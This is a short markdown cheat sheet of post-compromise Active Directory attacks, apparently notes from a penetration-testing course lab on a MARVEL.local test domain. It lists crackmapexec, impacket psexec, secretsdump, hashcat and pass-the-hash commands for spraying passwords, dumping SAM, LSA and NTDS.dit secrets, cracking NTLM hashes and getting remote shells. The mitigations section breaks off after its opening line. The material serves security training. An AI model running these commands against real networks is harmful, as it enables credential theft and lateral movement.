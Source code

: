 # Post Compromise Attacks

## Pass the Password Attacks

#### crackmapexec

```bash
kali@kali:~/ctf/tcm/peh$ crackmapexec smb 192.168.57.0/24 -u fcastle -d MARVEL.local -p Password1
# Dump the SAM hashes
--sam
# Dump the LSA secrets
--lsa
# Dump the NTDS.dit
--ntds
```

#### psexec

```bash
kali@kali:~/ctf/tcm/peh$ /usr/share/doc/python3-impacket/examples/psexec.py marvel/fcastle:Password1@192.168.57.142
```

## Dumping Hashes with secretsdump.py

#### secretsdump

```bash
kali@kali:~/ctf/tcm/peh$ /usr/share/doc/python3-impacket/examples/secretsdump.py marvel/fcastle:Password1@192.168.57.141
```

## Cracking NTLM Hashes with Hashcat

#### hashcat

```bash
kali@kali:~/ctf/tcm/peh$ hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt 
```

## Pass the Hash Attacks

#### crackmapexec

```bash
kali@kali:~/ctf/tcm/peh$ crackmapexec smb 192.168.57.0/24 -u "Frank Castle" -H <HASH> --local-auth
```

## Pass Attack Mitigations

Hard to completely prevent, but we can make it more difficult on an attacker:
